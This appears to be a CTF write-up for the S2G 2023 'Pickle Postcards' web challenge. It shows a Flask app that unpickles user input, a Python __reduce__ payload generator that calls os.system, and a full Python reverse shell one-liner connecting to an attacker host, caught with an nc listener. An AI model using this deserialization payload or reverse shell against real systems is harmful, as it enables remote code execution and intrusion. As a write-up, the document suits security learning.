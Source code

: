 ```yaml
---
title: "Pickle Postcards (web easy)"
date: 2023-03-17T17:03:49-08:00
summary: "Exploiting deserialization with pickle"
tags: ["pickle", "reverse shell", "python", "web"]
---
```


### Basic python pickle challenge
#### S2G web Pickle Postcards

Exploiting pythons \__reduce__ to create a payload that when loaded on the server gives us a reverse shell.
 <!--more-->

This was one of the more interesting challenges of the S2G web CTF 2023, mainly because I hadn't solved a pickle challenge during a ctf before, but this time my teammate managed to do it. This writeup will explain the practical ways of approaching this fairly straight forward challenge. If you are looking for more detailed explanations as well I would recommend finding a different writeup, or using this alongside the python documentation and other material. 

{{%attachments title="Related files" /%}}

We were given the source code of the application (above), with the interesting file being app.py. Opening up the website it looks like this:

![website](./images/website.png "website")

It is clearly a pickle challenge, so lets look at what the code does. The most interresting snippets in app.py are:

```py
@app.route('/', methods=['GET', 'POST'])
def index():
  data = str(request.args.get("data", ""))

  # Load/Deserialize postcard data
  if request.method == "GET" and data:
    
    deserialized_postcard = deserialize(data)
```

and

```py
def deserialize(serialized):
postcard = pickle.loads(base64.b64decode(serialized))
return postcard
```

A pickle challenge really can't get much more straight forward. It is more common to use pickle.loads for interpreting cookies, but this will simply take whatever data we send to the "/" endpoint and execute pickle.loads on it after base64 decoding it.

Pickle challenges relies on the \__reduce__ method on a python object. The following code is a good template for creating our own pickle payload:

```py
import pickle
import os
from base64 import b64encode, b64decode

COMMAND = '''
<insert command here>
'''

class Evil(object):
    def __reduce__(self):
        return (os.system,(COMMAND,))

e = Evil()
evil_token = b64encode(pickle.dumps(e))
print(evil_token)

#server runs pickle.loads(base64,b64decode(evil_token)) 
```

Sending the result of this script to the server will give us RCE of whatever we insert as the command. We could theoretically have it read flag.txt and return an object that could be printed on the website, but we can also just create a reverse shell if we have a public IP available. A great tool for creating reverse shells is https://www.revshells.com/. It is safest to use a python reverse shell as we know for sure that the webserver is running python.

The reverse shell generator gives us the command `export RHOST="<insert public ip here>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`. Placing this in the COMMAND field above and running the pickle payload generator gives the following output:

![payload](./images/payload.png "payload")

Sending this to the server should make it run the provided command, so all we have to do now is listen on the correct port on the machine with the public IP and send the payload to the server through the "Enter saved postcard data" field on the website.
We listen with `nc -lvp <port>` and get a shell on the webserver. Then all that's left is reading the flag.

![getting shell](./images/flag.png "getting shell")
